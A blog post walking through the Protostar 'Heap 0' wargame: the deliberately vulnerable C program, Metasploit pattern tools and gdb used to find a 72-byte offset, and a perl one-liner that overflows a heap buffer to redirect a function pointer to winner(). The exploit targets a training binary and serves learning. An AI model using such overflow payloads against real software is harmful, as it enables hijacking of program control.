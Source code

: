 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Heap 0"
date: "2012-01-10T05:34:00-05:00"
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
 - heap
---
```


Now that I've completed all of the Stack section of protostar, I've started to move onto Heap.  The first of these challenges, is [Heap 0](http://exploit-exercises.com/protostar/heap0).  

<!-- more -->

We are given the following code:

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
 char name[64];
};

struct fp {
 int (*fp)();
};

void winner()
{
 printf("level passed\n");
}

void nowinner()
{
 printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
 struct data *d;
 struct fp *f;

 d = malloc(sizeof(struct data));
 f = malloc(sizeof(struct fp));
 f->fp = nowinner;

 printf("data is at %p, fp is at %p\n", d, f);

 strcpy(d->name, argv[1]);

 f->fp();

}
```

I first needed to find the offset to where I could overwrite the EIP, so I connected to my other machine with the [Metasploit Framework](http://www.metasploit.com) installed, and generated a unique string.

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

I then used this string as the input to the heap0 executable.

```
user@protostar:/opt/protostar/bin$ gdb ./heap0 --quiet
Reading symbols from /home/user/heap0...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
Starting program: /home/user/heap0 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) print winner
$1 = {void (void)} 0x8048464 <winner>
```

Notice that we see the EIP is 0x41346341.  Additionally while I was debugging, I also got the address of the "winner" function, since I will want to redirect to that later.  It was at 0x08048464. 

I then connected to my [Metasploit Framework](http://www.metasploit.com) enabled machine to calculate the offset. 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x41346341
72
```

I then simply used perl to create an argument for the heap0 executable with 72 "A"s for spacing, and passing the address of the "winner" function in little-endian format to it.  It then succeeded.

```
user@protostar:/opt/protostar/bin$ ./heap0 `perl -e 'print "A"x72 . "\x64\x84\x04\x08"'`
data is at 0x804a008, fp is at 0x804a050
level passed
```
